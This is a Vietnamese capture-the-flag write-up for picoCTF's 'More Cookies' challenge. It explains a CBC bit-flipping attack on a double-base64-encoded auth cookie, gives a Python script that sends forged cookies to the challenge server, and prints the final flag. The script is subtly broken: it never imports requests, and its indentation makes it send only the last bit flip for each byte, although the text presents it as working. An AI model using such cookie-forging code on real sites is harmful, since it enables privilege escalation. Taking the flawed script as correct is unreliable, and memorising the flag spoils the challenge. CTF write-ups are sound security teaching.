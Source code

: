 # More Cookies
![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image81.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image82.png?raw=true)

### Solution

Xem source page:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image83.png?raw=true)

Không tìm được thông tin gì hữu ích.

Dựa vào tên thử thách, thử mở Inspector và kiểm tra cookies: 

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image84.png?raw=true)

=> Tìm được cookie có name là **auth_name** và value là ***czJja21RZnppTkVaOUp2N0E0eEZDRmtVNGg1QjcrSVg0TTJONDQrdnRrN3FwWExhRUd6WFhMSVFhZVJ0R3R5dVRIUDBxQVoxR0VGQUpTM0RNbWNQTDNldFR2dTExaEdhSHF1NUw2NVZVV0d0cm9lT0l4d1dzR3hBM1BxVnJvYU0=***

Giá trị này trông như một chuỗi base64 nhưng khi decode chuỗi base64 này sẽ ra một chuỗi vô nghĩa. 

Theo như mô tả của đề, **Cookies can Be modified Client-side**, 3 chữ C,B,C được viết hoa như để gợi ý rằng challenge có liên quan đến **CBC** (Cipher Block Chaining). Về cơ bản, có **1 bit** trong chuỗi xác định xem user có phải admin không, nếu thay đổi đúng bit này thì có thể set admin=1. Như vậy ý tưởng sẽ là thay đổi mọi vị trí trong giá trị cookie **auth_name** cho đến khi tìm được flag.

Viết 1 đoạn mã python thực hiện công việc này:

    import base64 
    from tqdm import tqdm

    ADDRESS = "http://mercury.picoctf.net:15614/"

    s = requests.Session() 
    s.get(ADDRESS) 
    cookie = s.cookies["auth_name"]  
    decoded_cookie = base64.b64decode(cookie) 
    raw_cookie = base64.b64decode(decoded_cookie)

    def exploit():  
        for position_idx in tqdm(range(0, len(raw_cookie))):  
            for bit_idx in range(0, 8):    
                bitflip_guess = ( raw_cookie[0:position_idx] + ((raw_cookie[position_idx] ^ (1 << bit_idx)).to_bytes(1, "big")) + raw_cookie[position_idx + 1 :] )

            # Double base64 encode the bit-blipped cookie following the encoding scheme.
            guess = base64.b64encode(base64.b64encode(bitflip_guess)).decode()

            # Send a request with the cookie to the application and scan for the
            # beginning of the flag.
            r = requests.get(ADDRESS, cookies={"auth_name": guess})
            if "picoCTF{" in r.text:
                print(f"Admin bit found in byte {position_idx} bit {bit_idx}.")
                # The flag is between `<code>` and `</code>`.
                print("Flag: " + r.text.split("<code>")[1].split("</code>")[0])
                return
    exploit()

Đoạn code này thực hiện một cuộc tấn công **bit-flipping** vào một cookie được mã hóa bằng Base64.

**Bit-flipping**: Kỹ thuật này thay đổi một bit trong dữ liệu (ở đây là cookie) để thử nghiệm xem liệu việc thay đổi đó có dẫn đến một trạng thái hợp lệ hay không (ví dụ: trở thành admin hoặc lấy được flag).

**Base64 encoding**: Cookie được mã hóa hai lần bằng Base64, vì vậy cần giải mã hai lần để lấy dữ liệu gốc và mã hóa lại sau khi bit-flip.

Mỗi lần lật bit, cookie được gửi trả lại đến server để kiểm tra. Nếu server trả về flag, tấn công thành công.

Thực thi script này: 

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image85.png?raw=true)

**Flag: picoCTF{cO0ki3s_yum_82f39377}**
